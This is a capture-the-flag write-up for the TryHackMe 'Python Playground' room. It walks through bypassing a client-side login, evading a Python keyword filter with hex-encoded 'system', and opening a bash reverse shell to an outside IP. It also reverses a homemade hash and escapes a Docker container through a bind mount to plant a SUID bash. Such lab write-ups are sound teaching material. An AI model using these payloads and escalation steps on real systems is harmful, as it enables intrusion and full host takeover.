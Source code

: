 ```yaml
---
title: "Python playground Writeup"
tags: writeup tryhackme
---
```


# [tryhackme/pythonplayground](https://tryhackme.com/room/pythonplayground)

## enumeration

A quick nmap scan reveals port 22 and 80 are open
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCx7S4TYtpO65Nt0ht3DaAt+X+WFQc/ytjz+/EB+klXHfLlTwTHBbjYoF7Dh3sFV+wc57YarYGvNrq+2mlMPxMzB9iYJrpX/ByeLgxWeKdIizTAUjq3kL9w3gZ3sFchTM1QNdHOiIPAkosueaOcIfa9HLPXc/H8jR/M3abJzmH6lr7wSKUI/E0i+mLDJCXHep5Im8t
/uK+GtfaTdPuJR3TezNAJ64yFil+bE70KbYIj0sY3XxPQ2IM+qwxCKPCMhi1MCL7qyTsZvCEzM0FfxPFZX3fxPKzyzjuSBG/bTU0da2O8Ndox8xS8r/QszCUqvRHK6bsIeoaGKcg5N3OUKvPP
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNOeXRUSHKqlSTLGWSqCdIrgQJUnCMaMUlDoaVxRAdPxKyN24fmEiQwRsh96GPSRBvFqMzyQF7ijTbImcVcNKZY=
|   256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILd7Nx4Jn1pD6oKxcr+iZD38mwLVgDSj6pSOzqK4Vl1w
80/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Python Playground!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![index.html](../../../assets/pythonplayground/index.png)

On the main page a blacklist is mentioned so some header faking with `X-Forwarded-For` was attempted but no luck.

While I was messing around trying to get around a blacklist feroxbuster found `/admin.html`

![feroxscan](../../../assets/pythonplayground/feroxscan.png)

This reveals an admin backend page

![admin](../../../assets/pythonplayground/admin.png)

the javascript on this page is the interesting part here

```javascript
// I suck at server side code, luckily I know how to make things secure without it - Connor

function string_to_int_array(str){
const intArr = [];

for(let i=0;i<str.length;i++){
  const charcode = str.charCodeAt(i);

  const partA = Math.floor(charcode / 26);
  const partB = charcode % 26;

  intArr.push(partA);
  intArr.push(partB);
}

return intArr;
}

function int_array_to_text(int_array){
let txt = '';

for(let i=0;i<int_array.length;i++){
  txt += String.fromCharCode(97 + int_array[i]);
}

return txt;
}

document.forms[0].onsubmit = function (e){
  e.preventDefault();

  if(document.getElementById('username').value !== 'connor'){
    document.getElementById('fail').style.display = '';
    return false;
  }

  const chosenPass = document.getElementById('inputPassword').value;

  const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))));

  if(hash === 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'){
    window.location = 'super-secret-admin-testing-panel.html';
  }else {
    document.getElementById('fail').style.display = '';
  }
  return false;
}
```

The hash algorithm looks like it is reversible but for now we can go straight to the `super-secret-admin-testing-panel.html`

![testpanel](../../../assets/pythonplayground/testpanel.png)

Here we can actually execute some code, `print('hello')` works as expected but pasting a reverse shell we get denied.

![testpanel blocked](../../../assets/pythonplayground/testpanel-denied.png)

It looks like there is some kind of detection for malicious code. Lets try to get some things past it, firstly import.
Checking my python builtins an alternative to `import os` is `os = __import__('os')`, lo and behold this worked :).
The next step is executing shell commands, however `__import__('os').system('id')` is also blocked. My first assumption
here was system was being filtered, luckily we can use hex strings to get around this. I ended up with this gadget for
executing arbritary system commands.

```python
getattr(__import__('os'), '\x73\x79\x73\x74\x65\x6D')('id')
```

`\x73\x79\x73\x74\x65\x6D` is just `system` hex encoded: if you run `print('\x73\x79\x73\x74\x65\x6D')` it would print `system`.

We can now pop a reverse shell, I used this one (adapted from [revshells](https://revshells.com))

```shell
$ bash -c "bash -i >& /dev/tcp/10.9.176.139/1337 0>&1"
```

On this system we find the first flag (`/root/flag1.txt`) however it seems to be a docker container, and because we are already root I doubt there are any more flags here.
It's time to try getting into the ssh. 

Now we have our shell we can check what blacklist they were using by dumping the source code in `/root/app/index.js`.
```javascript
function isAllowed(code){
    if(typeof code !== 'string'){
        return false;
    }
    if(code.indexOf('import ') >= 0){
        return false;
    }
    if(code.indexOf('eval') >= 0){
        return false;
    }
    if(code.indexOf('.system') >= 0){
        return false;
    }
    if(code.indexOf('exec') >= 0){
        return false;
    }

    return true;
}
```

It was just a simple word filter, nice.

## Finding connor's password
By reverse engineering connor's "secure" hash algorithm I came up with this javascript code to reverse it. Each function
is essentially the inverse of what was in the original javascript.
```javascript
const hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu';

function string_to_int(string) {
  const arr = [];
  for (let i=0;i<string.length;i++) {
    arr.push(string.charCodeAt(i)-97);
  }
  return arr;
}

function int_to_string(ints) {
  let string = '';
  for (let i=0;i<ints.length;i+=2) {
    string += String.fromCharCode((ints[i]*26) + ints[i+1]);
  }
  return string;
}

console.log(int_to_string(string_to_int(int_to_string(string_to_int(hash)))));
```

Using this I found connor's password and was able to login to ssh retrieving the second flag (`/home/connor/flag2.txt`).

## Getting root
Now we can ssh into the host machine it's a fair guess the final flag is the host's root user. Getting there was a bit of
a guessing game. The usually evaluation yields no results.

- `sudo -l`: not allowed
- `find / -perm /6000 2>/dev/null`: only common binaries
- `linpeas.sh`: no real results a few possibilities for vulnerable versions of `sudo` and `pkexec` but they didn't work

We know the system has docker but we don't have permission to control it as connor. Luckily after messing around with
docker commands I remembered some recon I did on the first reverse shell.

If we go back the original reverse shell into the docker container and run
```shell
# mount -l
```

![docker mounts](../../../assets/pythonplayground/docker-mounts.png)

A few of these mounts are sus docker bindings, after doing some investigating `/mnt/log` looks like it is `/var/log` on
the host system, this is very good.

Testing this theory we can create a file here on our reverse shell
```shell
# cd /mnt/log
# touch test
```

And then if we view the directory from our ssh session we can see the newly created file :).

Exploiting this is not too hard, as we are root in the docker container we can do root things to the files in this directory.
First I made a folder for connor to copy into
```shell
# mkdir hak
# chmod 777 hak
# cd hak
```

Then in our ssh shell we can copy the local copy of bash here (we need the local copy as the docker containers copy is copiled
with different dynamic links).
```shell
$ cp /bin/bash /var/log/hak
```

Now back in the docker container we can make this a SUID binary.
```shell
# chown root:root bash
# chmod +xs bash
```

Now we've made our own SUID binary and can exploit to get root on the host!

![escalate](../../../assets/pythonplayground/escalate.png)
